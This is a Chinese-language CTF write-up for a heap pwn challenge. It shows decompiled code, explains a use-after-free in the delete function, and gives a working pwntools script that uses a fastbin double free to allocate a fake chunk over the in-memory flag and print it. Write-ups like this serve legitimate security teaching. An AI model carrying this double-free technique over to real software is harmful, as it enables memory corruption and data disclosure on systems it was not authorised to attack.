


#  Some_thing_exceting

### 0x1 分析

看一下安全性：

```shell
➜  Some_thing_exceting checksec excited
[*] './pwn/Some_thing_exceting/excited'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

地址是固定。其他保护都开着。

拖进IDA看一下，逻辑并不复杂：

`main()`:

```c
void __fastcall main(__int64 a1, char **a2, char **a3)
{
  int idx; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v4; // [rsp+8h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  idx = 0;
  load_flag();
  menu();
  while ( 1 )
  {
    printf("> Now please tell me what you want to do :", a2);
    a2 = (char **)&idx;
    _isoc99_scanf("%d", &idx);
    switch ( idx )
    {
      case 1:                                   // create
        create();
        break;
      case 2:                                   // modified == exit
        godbye();
        return;
      case 3:                                   // delete
        delete();
        break;
      case 4:                                   // view
        view();
        break;
      case 5:                                   // exit
        goodbye();
        return;
      default:
        puts("Emmmmmm!Maybe you want Fool me!");
        goodbye();
        return;
    }
  }
}
```

一个菜单列举了这些功能，但是有修改函数但是没法修改。`load_flag()`倒是很友好。

`load_flag()`:

```c
unsigned __int64 load_flag()
{
  FILE *stream; // [rsp+0h] [rbp-10h]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  stream = fopen("/flag", "r");
  if ( !stream )
  {
    puts("Emmmmmm!Maybe you want Fool me!");
    exit(0);
  }
  byte_6020A0 = 0x60;
  fgets(s, 0x2D, stream);
  return __readfsqword(0x28u) ^ v2;
}
```

这里把flag的文件加载到`bss`段，并在其虚拟地址临近的位置设置了一个变量`byte_6020A0`，赋值为`0x60`。

接着看一下`create()`函数：

```c
unsigned __int64 create()
{
  void *v0; // rsi
  size_t size; // [rsp+Ch] [rbp-24h]
  int i; // [rsp+14h] [rbp-1Ch]
  void *ba; // [rsp+18h] [rbp-18h]
  void *na; // [rsp+20h] [rbp-10h]
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  puts("#######################");
  puts("#    Create Banana    #");
  puts("#---------------------#");
  for ( i = 0; i <= 9 && noteList[i]; ++i )     // max = 10
  {
    if ( i == 9 )
    {
      puts("#   so much banana!   #");
      puts("#######################");
      return __readfsqword(0x28u) ^ v6;
    }
  }
  noteList[i] = malloc(0x10uLL);                // noteList[i] -> |ba  |
  printf("> ba's length : ");                   //                |na  |
  _isoc99_scanf("%d", &size);
  if ( (signed int)size <= 0 || (signed int)size > 0x70 )// 0x6F  -> fastbin
  {
    puts("Emmmmmm!Maybe you want Fool me!");
    goodbye();
  }
  ba = malloc((signed int)size);
  printf("> ba : ", &size);
  v0 = ba;
  read(0, ba, (unsigned int)size);              // ba: No EOF
  printf("> na's length : ", v0);
  _isoc99_scanf("%d", (char *)&size + 4);
  if ( SHIDWORD(size) <= 0 || SHIDWORD(size) > 0x70 )// 0x6F -> fastbin
  {
    puts("Emmmmmm!Maybe you want Fool me!");
    goodbye();
  }
  printf("> na : ", (char *)&size + 4);
  na = malloc(SHIDWORD(size));
  read(0, na, HIDWORD(size));
  *(_QWORD *)noteList[i] = ba;
  *((_QWORD *)noteList[i] + 1) = na;
  puts("#---------------------#");
  puts("#      ALL Down!      #");
  puts("#######################");
  return __readfsqword(0x28u) ^ v6;
}
```

发现是这么个结构体：

```c
struct banana{
  void* ba;
  void* na;
};
```

并申请一个此结构体指针存在`bss`段，在结构体里面是两个指针，分别指向两个堆块，这两个堆块还有大小要求，正好在fastbin大小范围内。

在看一下`delete()`:

```c
unsigned __int64 delete()
{
  int idx; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("#######################");
  puts("#    Delete Banana    #");
  puts("#---------------------#");
  printf("> Banana ID : ");
  _isoc99_scanf("%d", &idx);
  if ( idx < 0 || idx > 10 || !noteList[idx] )
  {
    puts("Emmmmmm!Maybe you want Fool me!");
    goodbye();
  }
  free(*(void **)noteList[idx]);
  free(*((void **)noteList[idx] + 1));
  free(noteList[idx]);
  puts("#---------------------#");
  puts("#      ALL Down!      #");
  puts("#######################");
  return __readfsqword(0x28u) ^ v2;
}
```

这里只是`free`掉申请到的`ba`和`na`和那个结构体，但是并没有清空`bss`段的相应位置，有一个UAF漏洞。

另外还有`view()`函数：

```c
unsigned __int64 view()
{
  int idx; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("#######################");
  puts("#    Delete Banana    #");
  puts("#---------------------#");
  printf("> Banana ID : ");
  printf("> SCP project ID : ");
  _isoc99_scanf("%d", &idx);
  if ( idx < 0 || idx > 10 || !noteList[idx] )
  {
    puts("Emmmmmm!Maybe you want Fool me!");
    goodbye();
  }
  printf("# Banana's ba is %s\n", *(_QWORD *)noteList[idx]);
  printf("# Banana's na is %s\n", *((_QWORD *)noteList[idx] + 1));
  puts("#---------------------#");
  puts("#      ALL Down!      #");
  puts("#######################");
  return __readfsqword(0x28u) ^ v2;
}
```

只是输出内容。

那么我就需要让其中一个指针指向`bss`段上的`flag`的位置。

他前面刚好是一个存着`0x60`的变量，可以作为fakechunk的头部。并且地址是固定的，可以直接获取。

那么我们就通过double free修改fastbin链来指向这个fakechunk，然后申请他，输出就好。

我们调用两次`create()`来创建堆块，然后`delete()`两次第一次申请的两个堆块，完成double free。再申请到这两个堆块，修改`fd`指针，来修改fastbin链。

修改前：



修改后:（flag文件是我自己测试用的。）



然后申请到flag所在块，调用`view()`输出就好。

### 0x2 EXP

本地调试通过，未远程调试。

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *

context.log_level = 'debug' 
context.terminal = ['tmux', 'splitw', '-h']

p = process('./excited')
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
fake_chunk = 0x6020A0 - 0x8

def debug(p, cmd):
  '''cmd = 'b *%d\n' %(proc_base+breakaddr)'''
  gdb.attach(p, cmd)
  pause()

def create(p, ba_size, ba_content, na_size, na_content):
  p.sendlineafter("> Now please tell me what you want to do :", '1')
  p.sendlineafter("> ba's length : ", str(ba_size))
  p.sendlineafter("> ba : ", ba_content)
  p.sendlineafter("> na's length : ", str(na_size))
  p.sendlineafter("> na : ", na_content)

def delete(p, idx):
  p.sendlineafter("> Now please tell me what you want to do :", '3')
  p.sendlineafter("> Banana ID : ", str(idx))

def view(p, idx):
  p.sendlineafter("> Now please tell me what you want to do :", '4')
  p.sendlineafter("> SCP project ID : ", str(idx))

create(p, 0x50, 'ba', 0x50, 'na0')
create(p, 0x50, 'ba', 0x50, 'na1')
delete(p, 0)
delete(p, 1)
delete(p, 0)
# debug(p, 'bin\n')
# p.interactive()
payload = p64(fake_chunk)
create(p, 0x50, payload, 0x50, 'na2')
debug(p, 'bin\n')
create(p, 0x50, 'ba', 0x50, 'na3')
# debug(p, 'bin\n')
create(p, 0x50, 'ba', 0x20, '')
view(p, 4)
p.interactive()
```


